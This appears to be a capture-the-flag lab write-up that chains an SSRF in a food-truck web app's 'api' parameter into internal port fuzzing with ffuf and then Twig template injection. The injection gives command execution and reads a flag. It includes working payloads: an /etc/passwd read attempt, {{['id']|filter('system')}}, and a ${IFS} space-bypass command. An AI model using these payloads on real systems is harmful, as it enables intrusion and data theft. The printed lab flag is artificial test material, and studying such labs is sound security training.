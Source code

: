 ﻿---
sticker: lucide//server
---
## Scenario

You are tasked to perform a security assessment of a client's web application. Apply what you have learned in this module to obtain the flag.

![Pasted image 20250212154851.png](../../../IMAGES/Pasted%20image%2020250212154851.png)

Let's begin by checking the page:

![Pasted image 20250212154913.png](../../../IMAGES/Pasted%20image%2020250212154913.png)

We got a simple page, nothing is off at the beginning, we have three sections: `menu`, `reviews` and `contact`, let's read the main's page source code:

![Pasted image 20250212155010.png](../../../IMAGES/Pasted%20image%2020250212155010.png)

We can see this js code at the end of the file, let's break it down:

```ad-important
### **1. Loop Through Truck IDs**

- Iterates over a list of truck IDs:`["FusionExpress01", "FusionExpress02", "FusionExpress03"]`.
 
- For each truck ID, an HTTP request is made to fetch its location.
 

---

### **2. XMLHttpRequest Setup**

- **Synchronous Request**: 
 `xhr.open('POST', '/', false)` creates a **synchronous** POST request to the server (`/`). 
 _(Synchronous requests block the UI until completion, which is generally discouraged.)_
 
- **Request Headers**: 
 Sets`Content-Type: application/x-www-form-urlencoded` to send data as form-encoded key-value pairs.
 

---

### **3. Request Handling**

- **POST Data**: 
 Sends the parameter`api=http://truckapi.htb/?id=<TRUCK_ID>` in the request body.
 
 - `encodeURIComponent("=" + truckID)` ensures the`=` and truck ID are URL-safe (e.g.,`%3DFusionExpress01`).
 
 - Final URL sent to the server:`http://truckapi.htb/?id=FusionExpress01`.
 
- **Server-Side Behavior**: 
 The server likely acts as a proxy, using the`api` parameter to fetch data from the internal`truckapi.htb` endpoint. 
 _(This could introduce SSRF vulnerabilities if the server doesnâ€™t validate the URL.)_
 

---

### **4. Response Handling**

- **Success Case (HTTP 200)**:
 
 - Parses the response as JSON.
 
 - Displays`data['location']` if available, or`data['error']` if an error is present.
 
- **Failure Case**: 
 Shows "Unable to fetch current truck location!" if the request fails (non-200 status).
 

---

### **5. UI Updates**

- Updates the HTML element with`id=truckID` (e.g.,`<div id="FusionExpress01">`) to show the location/error.
 

---

### **Key Observations**

- **SSRF Risk**: The server trusts the`api` parameter to make internal requests. If unvalidated, attackers could exploit this to access internal systems.
 
- **Hardcoded Truck IDs**: Limits functionality to predefined trucks (no user input).
 
- **Synchronous Requests**: Poor practice for user experience but intentional here for sequential processing.

### **Summary**

For each Truck ID:
 1. Send POST to server with URL: `http://truckapi.htb/?id=<TRUCK_ID>`
 2. Server fetches data from `truckapi.htb`
 3. Client displays location/error in the webpage
```

Understanding the functionality of the page, we can start burp and check the request:

![Pasted image 20250212160205.png](../../../IMAGES/Pasted%20image%2020250212160205.png)

We can begin the testing for SSRF.

## SSRF Test
---

We can begin the test by pointing `http://127.0.0.1:80` to view the response:

![Pasted image 20250212160429.png](../../../IMAGES/Pasted%20image%2020250212160429.png)

It went through, what if we point to a closed port:

![Pasted image 20250212160546.png](../../../IMAGES/Pasted%20image%2020250212160546.png)

An error message is shown, knowing this, we can use ffuf and fuzz for open ports:

```
ffuf -w ports.txt:FUZZ -u http://83.136.252.66:53014/ -X POST -H "Host: 83.136.252.66:53014" -H "Content-Type: application/x-www-form-urlencoded" -d "api=http://127.0.0.1:FUZZ" -fr "Error \(7\)" -ic -c -t 200
```

We can see the following:

```
ffuf -w ports.txt:FUZZ -u http://83.136.252.66:53014/ -X POST -H "Host: 83.136.252.66:53014" -H "Content-Type: application/x-www-form-urlencoded" -d "api=http://127.0.0.1:FUZZ" -fr "Error \(7\)" -ic -c -t 200

 /'___\ /'___\ /'___\
 /\ \__/ /\ \__/ __ __ /\ \__/
 \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
 \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
 \ \_\ \ \_\ \ \____/ \ \_\
 \/_/ \/_/ \/___/ \/_/

 v2.1.0-dev
________________________________________________

 :: Method : POST
 :: URL : http://83.136.252.66:53014/
 :: Wordlist : FUZZ: /home/samsepiol/ports.txt
 :: Header : Host: 83.136.252.66:53014
 :: Header : Content-Type: application/x-www-form-urlencoded
 :: Data : api=http://127.0.0.1:FUZZ
 :: Follow redirects : false
 :: Calibration : false
 :: Timeout : 10
 :: Threads : 200
 :: Matcher : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter : Regexp: Error \(7\)
________________________________________________

3306 [Status: 200, Size: 45, Words: 7, Lines: 1, Duration: 158ms]
80 [Status: 200, Size: 4194, Words: 278, Lines: 126, Duration: 5317ms]
```

So, port 3306 is open, let's check the response:

![Pasted image 20250212161958.png](../../../IMAGES/Pasted%20image%2020250212161958.png)

We got another error message, `Received HTTP/0.9 when not allowed`, but it doesn't matter, since we know we have SSRF, we can attempt to read local files:


```
file:///etc/passwd
```

We get the following:

![Pasted image 20250212165927.png](../../../IMAGES/Pasted%20image%2020250212165927.png)

`file` has been disabled, let's test other way.

## SSTI Test
---

We can test SSTI with this simple payload:


```twig
http://truckapi.htb/?id={{7*7}}
```

We see the following:


![Pasted image 20250212170132.png](../../../IMAGES/Pasted%20image%2020250212170132.png)

It works, this means we are facing `twig`, let's try to use this:

```twig
{{ ['id'] | filter('system') }}
```

We need to format it:

```twig
http://truckapi.htb/?id={{['id']|filter('system')}}
```

We see the following:

![Pasted image 20250212170307.png](../../../IMAGES/Pasted%20image%2020250212170307.png)

We got RCE, let's proceed to read our flag, since we need to do a space in order to do `cat /flag.txt`, we can use `${IFS}` which is the `Internal Field Separator` to bypass the space restrictions in shell commands, payload would be the following:

```twig
http://truckapi.htb/?id={{['cat${IFS}/flag.txt']|filter('system')}}
```

We can see the following:

![Pasted image 20250212170624.png](../../../IMAGES/Pasted%20image%2020250212170624.png)

We got our flag:

```
HTB{3b8e2b940775e0267ce39d7c80488fc8}
```

![Pasted image 20250212170814.png](../../../IMAGES/Pasted%20image%2020250212170814.png)

